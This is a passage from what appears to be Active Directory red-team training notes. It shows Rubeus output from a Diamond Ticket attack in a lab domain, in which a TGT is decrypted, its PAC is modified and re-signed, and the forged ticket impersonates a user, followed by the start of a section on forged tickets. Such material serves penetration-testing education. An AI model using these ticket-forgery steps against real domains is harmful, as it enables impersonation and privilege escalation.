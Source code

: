 **Output:**

```
*] Action: Diamond Ticket

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dc-2.dev.cyberbotic.io'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: +mzV4aOvQx3/dpZGBaVEhccq1t+jhKi8oeCYXkjHXw4=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFgz [...snip...] MuSU8=

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

      doIFYj [...snip...] MuSU8=
```

**Rubeus'&#x20;**<mark style="color:yellow;">**`describe`**</mark>**&#x20;will now show that this is a TGT for the target user:**

```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIFYj[...snip...]MuSU8=

[*] Action: Describe Ticket

  ServiceName              :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  7/7/2022 8:41:46 AM
  EndTime                  :  7/7/2022 6:41:46 PM
  RenewTill                :  1/1/1970 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  jp4k3G5LvXpIl3cuAnTtgLuxOWkPJIUjOEZB5wrHdVw=
```

## Forged Tickets

In larger organizations, the AD CS roles are installed on separate servers and not on the Domain Controllers themselves.
